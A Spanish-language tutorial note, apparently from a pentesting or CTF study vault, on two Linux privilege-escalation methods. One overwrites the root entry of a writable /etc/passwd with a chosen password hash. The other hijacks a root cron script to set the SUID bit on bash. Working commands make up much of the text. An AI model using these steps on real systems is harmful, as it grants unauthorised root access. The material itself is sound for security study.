 -- -

El archivo `/etc/passwd` en sistemas Linux almacena información de los usuarios del sistema. Si el archivo es **writable** por un usuario no privilegiado, se puede aprovechar para escalar privilegios.

---

### 🔍 **Paso 1: Verificar Archivos Escribibles**
Primero, hacemos un barrido para identificar archivos con permisos de escritura:
```bash
find / -writable 2>/dev/null
```
- **-writable:** Busca archivos con permisos de escritura.  
- **2>/dev/null:** Suprime los errores de acceso.  

---

### 💥 **Paso 2: Generar un Hash con OpenSSL**
Si encontramos que `/etc/passwd` es escribible, podemos generar un hash de contraseña utilizando OpenSSL:
```bash
openssl passwd -1 "ContraseñaNueva"
```
- **-1:** Genera un hash en formato MD5.  
- **ContraseñaNueva:** La contraseña que deseas usar.  

---

### ✏️ **Paso 3: Modificar el Archivo /etc/passwd**
Reemplazamos la línea correspondiente al usuario root por una línea similar a esta:
```
root:$1$5Gw8JK8b$w0EvYshPfxtD.kg5J/7Lq0:0:0:root:/root:/bin/bash
```
- El campo **`$1$5Gw8JK8b$w0EvYshPfxtD.kg5J/7Lq0`** representa el hash de la contraseña.  
- Asegúrate de que el último campo indique `/bin/bash` para obtener una shell interactiva.  

---

### 🚀 **Paso 4: Acceder como root**
Simplemente iniciamos sesión con la nueva contraseña:
```bash
su root
```

---

## 🕵️ **Escalada de Privilegios con Scripts en Directorio Personal**

Si el usuario root tiene una **tarea cron** que ejecuta un script en tu directorio personal, puedes aprovecharlo de la siguiente manera:

---

### 📌 **Paso 1: Eliminar el Script Original**
Borramos el script original si tenemos permisos:
```bash
rm /home/user/myscript.sh
```

---

### 📝 **Paso 2: Crear un Script Malicioso**
Creamos un nuevo script con el mismo nombre:
```bash
#!/bin/bash
chmod u+s /bin/bash
```
- **chmod u+s /bin/bash:** Asigna el bit SUID a Bash, permitiendo ejecutar Bash como root.

---

### 👁️ **Paso 3: Verificar el Cambio con watch**
Podemos usar `watch` para monitorear si el archivo obtiene el bit SUID:
```bash
watch -n 1 ls -l /bin/bash
```
- **-n 1:** Actualiza cada segundo.
- **ls -l /bin/bash:** Verifica los permisos del binario.

---

### 💣 **Paso 4: Obtener una Shell de Root**
Una vez que el bit SUID esté activo, podemos iniciar una shell privilegiada:
```bash
bash -p
```
- **-p:** Preserva los privilegios SUID.

---

💡 **Consejo:** Si quieres monitorizar qué procesos se ejecutan bajo cron y bajo qué usuario, puedes usar herramientas como `pspy` o verificar el contenido de los crontabs en:
```bash
cat /etc/crontab
```
---

🚀 **Guarda esta guía en Obsidian para tener siempre a mano las mejores técnicas de escalada de privilegios en Linux!** 💻